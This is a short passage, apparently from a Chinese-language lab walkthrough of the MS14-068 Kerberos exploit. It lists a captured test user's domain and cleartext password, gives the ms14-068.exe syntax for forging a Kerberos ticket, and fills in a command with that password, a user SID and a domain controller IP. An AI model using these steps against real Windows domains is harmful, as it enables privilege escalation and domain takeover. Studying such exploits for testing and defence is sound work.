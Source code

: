 ```
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```


#### 生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip
```

![](img/4.gif)

> 上传文件 并尝试抓取信息

使用刚刚抓到的密码组合命令

```
MS14-068.exe -u  test1@test.com  -p Abcd1234!@#$ -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```

![](img/15.png)
